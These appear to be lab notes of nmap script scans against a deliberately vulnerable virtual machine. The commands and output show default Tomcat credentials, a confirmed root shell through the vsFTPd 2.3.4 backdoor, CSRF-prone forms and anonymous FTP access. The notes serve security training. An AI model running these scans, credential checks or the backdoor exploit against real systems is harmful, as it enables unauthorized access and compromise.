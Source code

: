 # Finding Vulnerability with nmap scripts

nmap --script auth <Target ip> -sS

# tomcat exploit

Post-scan script results:
| creds-summary: 
|   192.168.87.109: 
|     8180/unknown: 
|       tomcat:tomcat - Valid credentials
|_      tomcat:tomcat - Valid credentials
Nmap done: 1 IP address (1 host up) scanned in 31.89 seconds

```
nmap -script malware 192.168.87.109 -sS -F

nmap -script banner 192.168.87.109 -sS -F
```

PORT     STATE SERVICE
21/tcp   open  ftp
| ftp-vsftpd-backdoor: 
|   VULNERABLE:
|   vsFTPd version 2.3.4 backdoor
|     State: VULNERABLE (Exploitable)
|     IDs:  BID:48539  CVE:CVE-2011-2523
|       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.
|     Disclosure date: 2011-07-03
|     Exploit results:
|       Shell command: id
|       Results: uid=0(root) gid=0(root)
|     References:
|       http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
|       https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb
|       https://www.securityfocus.com/bid/48539
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
| smtp-vuln-cve2010-4344: 
|_  The SMTP server is not Exim: NOT VULNERABLE
53/tcp   open  domain
80/tcp   open  http
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.87.109
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://192.168.87.109:80/dvwa/
|     Form id: 
|     Form action: login.php
|     
|     Path: http://192.168.87.109:80/mutillidae/index.php?page=dns-lookup.php
|     Form id: iddnslookupform
|     Form action: index.php?page=dns-lookup.php
|     
|     Path: http://192.168.87.109:80/mutillidae/index.php?page=register.php
|     Form id: id-bad-cred-tr
|_    Form action: index.php?page=register.php
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
513/tcp  open  login
514/tcp  open  shell
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
8009/tcp open  ajp13
MAC Address: 08:00:27:42:FE:60 (Oracle VirtualBox virtual NIC)

nmap -script ftp-anon.nse 192.168.87.109

PORT     STATE SERVICE
21/tcp   open  ftp
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown

FTP anonymous

ftp 192.168.87.109

Connected to 192.168.87.109.
220 (vsFTPd 2.3.4)
Name (192.168.87.109:kali): Anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
